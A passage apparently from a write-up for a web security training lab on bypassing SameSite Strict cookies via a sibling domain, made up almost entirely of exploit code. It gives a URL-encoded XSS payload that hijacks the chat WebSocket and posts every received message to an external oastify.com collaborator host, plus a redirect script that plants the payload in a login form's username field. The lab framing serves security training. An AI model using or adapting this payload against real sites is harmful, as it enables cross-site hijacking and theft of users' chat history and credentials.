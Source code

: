 ```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%39%30%30%39%62%30%34%65%32%65%35%38%32%38%30%34%66%63%31%66%37%30%30%62%38%30%30%64%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%69%66%31%77%37%73%69%67%61%31%63%65%7a%6a%33%30%62%38%6b%30%38%69%32%30%65%72%6b%69%38%62%77%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```


Use it as the payload in the username field:


```
<script>
    document.location = "https://cms-0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%39%30%30%39%62%30%34%65%32%65%35%38%32%38%30%34%66%63%31%66%37%30%30%62%38%30%30%64%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%69%66%31%77%37%73%69%67%61%31%63%65%7a%6a%33%30%62%38%6b%30%38%69%32%30%65%72%6b%69%38%62%77%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=aa";
</script>
```




![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/10.png)
